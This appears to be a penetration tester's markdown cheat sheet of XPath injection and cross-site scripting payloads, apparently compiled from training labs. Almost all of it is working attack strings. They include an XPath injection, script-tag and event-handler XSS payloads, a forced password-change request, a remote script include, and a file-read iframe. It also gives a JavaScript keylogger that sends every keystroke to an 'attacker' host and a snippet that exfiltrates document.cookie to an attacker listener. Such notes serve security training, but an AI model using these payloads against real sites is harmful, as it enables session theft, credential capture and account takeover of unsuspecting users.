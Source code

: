 
#### XPATH

- [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XPATH%20Injection)
- `' or 1=1}/parent::*/child::node()%00`

### XSS 

- js can access cookies if they **_DO NOT HAVE_** the `httpOnly` flag enabled.
- [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- Test in all inputs and params
- `<script>fetch('/settings?new_password=pass123');</script>`?
- `<script src="http://192.168.49.194:8000/xss.js"></script>`
- all tags blocked? use custom tag 
```javascript 
   <script>
   location = 'https://acd21f001f9a7723c0f207c1008700d5.web-security-academy.net/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x';
   </script>
```
- not sure but this worked, from burpsuite acad `%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E`
- `<script>document.write('<iframe src=file:///etc/passwd></iframe>');</script>` read file xss?
- `<` is blocked? try `"onmouseover="alert(1)`
- Input for URL? try `javascript:prompt(1)` after clicking the link should trigger javascript prompt 1
#### Keylogger 

```javascript
function logKey(event){
	fetch("http://attacker:8000/k?key="+ event.key)
}

document.addEventListener('keydown', logKey);
```

Ref: https://developer.mozilla.org/en-US/docs/Web/API/Document/keydown_event

#### Reflected XSS

Craft malicious link > send to victim
- Search functions `http://blah.com/search?=<sCript>alert(1)</sCript>`

#### Reflected Client XSS

- `<img src='x' onerror='alert(1)'>`
- `<sCript>` tag shouldn't run in inner.html so use the above

#### Steal Cookie

```javascript

let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://attackerlistener:8000/exfil?data=" + encodedCookie)
```

